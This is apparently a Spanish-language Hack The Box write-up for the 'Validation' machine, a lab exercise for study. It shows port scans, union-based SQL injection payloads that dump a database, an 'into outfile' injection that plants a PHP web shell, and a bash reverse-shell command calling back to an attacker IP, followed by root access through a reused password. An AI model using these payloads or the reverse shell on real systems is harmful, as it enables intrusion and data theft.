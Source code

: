 ```yaml
---
layout: single
title: Validation - Hack The Box
excerpt: "Máquina muy interesante, con la cual puedes practicar bastante SQL Injection. Tiene una dificultad de Easy por lo que no sera mucho problema hacerla."
date: 2022-03-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-validation/validation_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
   - hackthebox
   - infosec
tags:
   - linux
   - SQL Injection Error Based
   - SQL RCE (into outfile)
   - Information Leakage
---
```


![](/assets/images/htb-writeup-validation/validation_logo.png)

# Reconocimiento

Como siempre, comenzaremos efectuando un escaneo de puertos por el protocolo **TCP**, y el output lo redirigiremos al fichero `allPorts`.

```bash

h3g0c1v@kali:~/htb/validation$ nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.11.116 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-16 12:14 CET
Initiating SYN Stealth Scan at 12:14
Scanning 10.10.11.116 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.116
Discovered open port 22/tcp on 10.10.11.116
Discovered open port 80/tcp on 10.10.11.116
Discovered open port 4566/tcp on 10.10.11.116
Completed SYN Stealth Scan at 12:14, 10.83s elapsed (65535 total ports)
Nmap scan report for 10.10.11.116
Host is up, received user-set (0.036s latency).
Scanned at 2022-03-16 12:14:13 CET for 11s
Not shown: 65522 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.98 seconds
           Raw packets sent: 65544 (2.884MB) | Rcvd: 65572 (2.623MB)


```

Después detectaremos la **versión** y **servicio** que corren bajo los puertos que hemos detectado abiertos.

```bash

h3g0c1v@kali:~/htb/validation$ nmap -sCV -p22,80,4566,8080 10.10.11.116 -oN targeted                    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-16 12:15 CET
Nmap scan report for 10.10.11.116
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.52 seconds

```

Siguiendo con el reconocimiento vamos a ver un poco más sobre esos puertos **http** abiertos usando la herramienta **whatweb**.

```bash
h3g0c1v@kali:~/htb/validation$ whatweb http://10.10.11.116     
http://10.10.11.116 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]

h3g0c1v@kali:~/htb/validation$ whatweb http://10.10.11.116:8080
http://10.10.11.116:8080 [502 Bad Gateway] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[502 Bad Gateway], nginx

h3g0c1v@kali:~/htb/validation$ whatweb http://10.10.11.116:4566
http://10.10.11.116:4566 [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[403 Forbidden], nginx
```

Bien, ya podemos ir a ver que hay en cada una de las páginas web.

![](/assets/images/htb-writeup-validation/web80.png)

![](/assets/images/htb-writeup-validation/web8080.png)

![](/assets/images/htb-writeup-validation/web4566.png)

Vale, parece que las demás páginas no tienen nada interesante, aunque fuzeemos en ella, así que me quedaré con la del puerto **80**.

Vamos a intentar una inyección SQL, por lo que capturaré la petición con **burpsuite**.

![](/assets/images/htb-writeup-validation/burp.png)

Si intentamos la inyección en el campo del país, utilizando la cookie que nos establece el servidor, vemos que es vulnerable.

![](/assets/images/htb-writeup-validation/sql.png)

En este punto dumpeare la base de datos, realizando unas simples inyecciones SQL.

	- username=test&country=Brazil' union select 1-- -
	- username=test&country=Brazil' union select database()-- -
	- username=test&country=Brazil' union select (select schema_name) from information_schema.schemata-- -
	- username=test&country=Brazil' union select (select table_name) from information_schema.tables where table_schema="registration"-- -
	- username=test&country=Brazil' union select (column_name) from information_schema.columns where table_schema="registration" and table_name="registration"-- -
	- username=admin&country=Brazil' union select group_concat(username,0x3a,userhash) from registration-- -

Y ahí tenemos el hash de la cuenta del administrador.

![](/assets/images/htb-writeup-validation/dumpadmin.png)


# Cracking


Ese hash lo vamos a intentar crackear con el uso de **rainbowtables**.

![](/assets/images/htb-writeup-validation/crackhash.png)

Y bueno, vemos que el admin emplea una contraseña bastante fuerte, pero lo que hemos podido crackear sin dificultad. XD


# Intrusión a la Máquina Víctima


Ahora, volviendo a las inyecciones SQL, vamos a probar si podemos meter contenido dentro de un fichero.

	- username=admin&country=Brazil' union select "probando" into outfile "/var/www/html/probando.txt"-- -

Si nos vamos a la página web, y buscamos por `/probando.txt`, que es el fichero que hemos creado y metido el texto **probando**, veremos que, efectivamente, hemos podido.
 
![](/assets/images/htb-writeup-validation/intooutfile.png)

Como podemos, meteré un contenido en PHP malicioso, para con el parámetro **cmd** pueda ejecutar comandos remotamente.

![](/assets/images/htb-writeup-validation/phpmalicososql.png)

Ahora, si nos vamos a la página web y nos metemos en `/cmd.php`, veremos que podemos ejecutar comandos

![](/assets/images/htb-writeup-validation/rce.png)

Ahora me estableceré una reverse shell con el fichero PHP malicioso, ejecutando el siguiente comando desde la terminal.

	- curl 10.10.11.116/cmd.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.3/443 0>&1"'

Y si nos vamos al lado donde estábamos en escucha, veremos que nos ha entablado la **reverse shell** correctamente.

![](/assets/images/htb-writeup-validation/reverseshell.png)

Estamos dentro. En este punto haré un tratamiento de la **tty** para tener una **shell** completamente interactiva.

![](/assets/images/htb-writeup-validation/tty.png)

Y exportaremos las dos variables.

![](/assets/images/htb-writeup-validation/exporttty.png)

Nos vamos al directorio `/home/htb/` y visualizaremos la `user.txt`.

```bash
www-data@validation:/var/www/html$ cd /home/htb/
www-data@validation:/home/htb$ cat user.txt 
aa77f865e5ad80d885ff92ca9117cdde
```

Si nos volvemos al directorio que estábamos nada más entrar, veremos que hay un `config.php`. Este fichero suele tener credenciales, por lo que vamos a verlo.

![](/assets/images/htb-writeup-validation/configphp.png)

Efectivamente, hay credenciales de la base de datos, pero realmente la base de datos ya la hemos dumpeado, por lo que en vez de utilizarla para meterme en ella, probaré a ver si se ha reutilizado la contraseña para el usuario **root**.

![](/assets/images/htb-writeup-validation/root.png)

Bueno, pues ya estamos como root. En este punto ya podemos irnos a `/root/` y visualizar la `root.txt`.

```bash
root@validation:/var/www/html# cd /root/
root@validation:~# cat root.txt 
6f2a67444026a225abecc203daf1fc3e
```

Y ésta es la máquina **Validation** , espero que te haya gustado el *write-up*, puedes ver más como éste en mi página web. :)
